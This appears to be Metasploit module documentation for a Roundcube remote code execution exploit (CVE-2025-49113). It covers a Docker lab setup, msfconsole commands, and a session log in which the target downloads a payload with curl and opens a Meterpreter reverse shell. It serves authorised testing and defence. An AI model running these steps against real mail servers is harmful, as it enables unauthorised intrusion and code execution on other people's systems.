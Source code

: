 ## Vulnerable Application
  This module exploits an authenticated remote code execution vulnerability via a file upload
  endpoint. The vulnerability stems from improper validation of the uploaded filename, which is
  deserialized on the server side without sufficient sanitization. By embedding a PHP serialization
  gadget chain in the filename, an attacker can achieve remote code execution.

  This issue is tracked as CVE-2025-49113. Exploitation results in code execution as the web server
  user.

## Testing
To set up a test environment:
1. Set up an Roundcube.

Create File
`docker-compose.xml`
```
version: '3'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_pass
      MYSQL_DATABASE: roundcube
      MYSQL_USER: roundcube_user
      MYSQL_PASSWORD: roundcube_pass
    volumes:
      - db_data:/var/lib/mysql

  roundcube:
    image: roundcube/roundcubemail:1.5.9-apache
    depends_on:
      - db
    ports:
      - "8080:80"
    environment:
      ROUNDCUBEMAIL_DEFAULT_HOST: <ROUNDCUBEMAIL_DEFAULT_HOST>
      ROUNDCUBEMAIL_SMTP_SERVER: <ROUNDCUBEMAIL_SMTP_SERVER>
      ROUNDCUBEMAIL_SMTP_PORT: 587
      ROUNDCUBEMAIL_SMTP_USER: <ROUNDCUBEMAIL_SMTP_USER>
      ROUNDCUBEMAIL_SMTP_PASS: <ROUNDCUBEMAIL_SMTP_PASS>
      ROUNDCUBEMAIL_DES_KEY: randomstring
      ROUNDCUBEMAIL_DB_TYPE: mysql
      ROUNDCUBEMAIL_DB_HOST: db
      ROUNDCUBEMAIL_DB_USER: roundcube_user
      ROUNDCUBEMAIL_DB_PASSWORD: roundcube_pass
      ROUNDCUBEMAIL_DB_NAME: roundcube

volumes:
  db_data:
```

Execute

`docker compose up`

2. Configure basic networking and confirm that the web service on port 8080 is reachable.
3. Follow the verification steps below.

## Options
No custom options exist for this module.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/roundcube_unauth_rce_cve_2025_49113`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set LHOST <LOCAL_IP>`
6. `set LPORT <LOCAL_PORT>`
7. `set USERNAME <USERNAME_TO_LOGIN_WITH>`
8. `set PASSWORD <PASSWORD_TO_LOGIN_WITH>`
9. `run`

## Scenarios
### Roundcube Linux Target
```
msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_unauth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HOST                        no        The hostname of Roundcube server
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   TIMEOUT    3                no        Time to wait for session (in seconds)
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux

msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > exploit

[*] Started reverse TCP handler on 192.168.159.129:8082 
[*] Using URL: http://192.168.159.129:9696/
[*] Fetching CSRF token...
[*] Attempting login...
[+] Login successful.
[*] Preparing payload...
[+] Payload successfully generated and serialized.
[*] Uploading malicious payload...
[*] Client 192.168.181.148 (curl/7.74.0) requested /
[*] Sending payload to 192.168.181.148 (curl/7.74.0)
[*] Sending stage (3045380 bytes) to 192.168.181.148
[*] Meterpreter session 1 opened (192.168.159.129:8082 -> 192.168.181.148:56528) at 2025-06-06 21:05:59 -0400
[+] Exploit attempt complete. Check for session.
[*] Server stopped.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer     : dante.local
OS           : Debian 11.5 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
